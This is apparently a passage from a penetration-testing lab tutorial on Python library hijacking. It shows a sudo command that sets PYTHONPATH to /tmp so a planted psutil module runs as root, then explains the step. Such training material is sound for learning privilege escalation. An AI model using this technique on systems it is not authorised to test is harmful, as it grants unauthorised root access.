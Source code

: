 Python Library Hijacking

```shell-session
htb-student@lpenix:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

In this example, we moved the previous python script from the `/usr/lib/python3.8` directory to `/tmp`. From here we once again call `/usr/bin/python3` to run `mem_stats.py`, however, we specify that the `PYTHONPATH` variable contain the `/tmp` directory so that it forces Python to search that directory looking for the `psutil` module to import. As we can see, we once again have successfully run our script under the context of root.